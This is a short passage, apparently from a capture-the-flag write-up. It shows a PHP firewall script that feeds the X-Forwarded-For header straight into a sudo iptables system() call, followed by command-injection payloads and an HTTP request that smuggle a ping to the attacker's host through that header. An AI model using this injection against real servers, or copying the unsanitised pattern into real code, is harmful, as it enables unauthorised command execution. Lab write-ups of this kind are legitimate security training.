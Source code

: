 ```bash
$ cat /var/www/html/firewall.php 
...
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
?>
...
```

```bash
sudo /usr/sbin/iptables -A INPUT -s $(ping -c 1 10.10.14.6) -j ACCEPT
```

```bash
sudo /usr/sbin/iptables -A INPUT -s 1.1.1.1; ping -c 1 10.10.14.6 -j ACCEPT
```

```bash
GET /firewall.php HTTP/1.1
Host: 10.10.11.128
Cookie: PHPSESSID=ouf9s9d9qu01d13am6j8jul9gm
X-Forwarded-For: $(ping -c 1 10.10.14.6)
```
